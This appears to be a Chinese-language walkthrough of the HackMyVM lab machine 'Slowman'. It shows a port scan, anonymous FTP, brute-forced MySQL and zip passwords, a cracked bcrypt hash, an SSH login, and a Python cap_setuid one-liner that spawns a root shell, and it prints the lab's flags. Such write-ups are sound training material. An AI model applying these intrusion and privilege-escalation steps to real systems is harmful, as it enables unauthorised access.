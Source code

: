 # Slowman

2025.03.25 https://hackmyvm.eu/machines/machine.php?vm=Slowman

[video]()

## Ip

192.168.5.40

## Scan

```
PORT     STATE  SERVICE
20/tcp   closed ftp-data
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
3306/tcp open   mysql
```

web 上什么都没有。

ftp 可匿名，进入后修改成 passive 模式，得到 allowedusersmysql.txt 内容 trainerjeff ，给了 mysql 用户名，直接爆破，得到密码 soccer1

登陆数据库发现 trainers_db.users 表，内容：

```
MySQL [trainers_db]> select * from users;
+----+-----------------+-------------------------------+
| id | user            | password                      |
+----+-----------------+-------------------------------+
|  1 | gonzalo         | tH1sS2stH3g0nz4l0pAsSWW0rDD!! |
|  2 | $SECRETLOGINURL | /secretLOGIN/login.html       |
+----+-----------------+-------------------------------+
```

使用 gonzalo 用户凭据登陆 http://192.168.5.40/secretLOGIN/login.html 发现文件 http://192.168.5.40/secretgym/serverSHARE/credentials.zip 下载。

zip 有密码，爆破得到解压密码 spongebob1 得到内容：

```
$USERS: trainerjean

$PASSWORD: $2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq
```

再次爆破，得到明文密码 tweety1 使用用户名 trainerjean 登陆 ssh。

先拿到 user flag：

```
trainerjean@slowman:~$ cat user.txt
YOU9et7HEpA$SwordofS10wMan!!
```

进行系统枚举，发现 getcap : /usr/bin/python3.10 cap_setuid=ep 直接运行命令 setuid(0)拿到 root 权限：

```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```
root@slowman:/root# cat root.txt
Y0UGE23t7hE515roo7664pa5$WoRDOFSlowmaN!!
```
